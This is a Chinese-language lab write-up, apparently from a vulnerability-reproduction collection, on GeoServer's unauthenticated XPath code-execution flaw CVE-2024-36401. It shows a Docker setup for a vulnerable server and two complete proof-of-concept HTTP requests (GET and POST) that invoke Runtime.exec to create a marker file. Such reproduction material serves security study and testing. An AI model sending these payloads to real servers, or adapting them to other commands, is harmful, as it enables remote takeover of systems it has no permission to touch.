

# GeoServer 属性名表达式前台代码执行漏洞（CVE-2024-36401）

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在GeoServer 2.25.1， 2.24.3， 2.23.5版本及以前，未登录的任意用户可以通过构造恶意OGC请求，在默认安装的服务器中执行XPath表达式，进而利用执行Apache Commons Jxpath提供的功能执行任意代码。

参考链接：

- <https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv>
- <https://github.com/geotools/geotools/security/advisories/GHSA-w3pj-wh35-fq8w>
- <https://tttang.com/archive/1771/>
- <https://github.com/Warxim/CVE-2022-41852>

## 漏洞环境

执行如下命令启动一个GeoServer 2.23.2服务器：

```
docker compose up -d
```

服务启动后，你可以在`http://your-ip:8080/geoserver`查看到GeoServer的默认页面。

## 漏洞复现

在官方[漏洞通告](https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv)中提到可以找到漏洞相关的WFS方法：

> No public PoC is provided but this vulnerability has been confirmed to be exploitable through WFS GetFeature, WFS GetPropertyValue, WMS GetMap, WMS GetFeatureInfo, WMS GetLegendGraphic and WPS Execute requests.

比如，我这里使用`GetPropertyValue`来执行xpath表达式。参考[官方文档](https://github.com/geoserver/geoserver/blob/2.23.2/doc/en/user/source/services/wfs/reference.rst)，我构造了两个POC。基于GET方法的POC：

```
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1') HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

基于POST方法的POC：

```
POST /geoserver/wfs HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')</wfs:valueReference>
</wfs:GetPropertyValue>
```

熟悉的`java.lang.ClassCastException`错误，说明命令已执行成功。


进入容器可见，`touch /tmp/success1`与`touch /tmp/success2`均已成功执行。


值得注意的是，typeNames必须存在，我们可以在Web页面中找到当前服务器中的所有Types：


